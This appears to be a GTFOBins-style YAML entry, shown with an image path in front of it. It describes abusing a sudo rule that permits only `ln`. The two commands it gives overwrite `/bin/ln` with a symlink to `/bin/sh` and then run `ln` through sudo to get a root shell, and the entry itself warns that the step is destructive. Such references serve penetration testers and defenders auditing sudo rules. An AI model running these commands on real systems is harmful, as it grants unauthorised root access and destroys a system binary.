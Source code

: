 description: This overrides `ln` itself with a symlink to a shell (or any other executable) that is to be executed as root, useful in case a `sudo` rule allows to only run `ln` by path. Warning, this is a destructive action.
functions:
  sudo:
    - code: |
        sudo ln -fs /bin/sh /bin/ln
        sudo ln
---
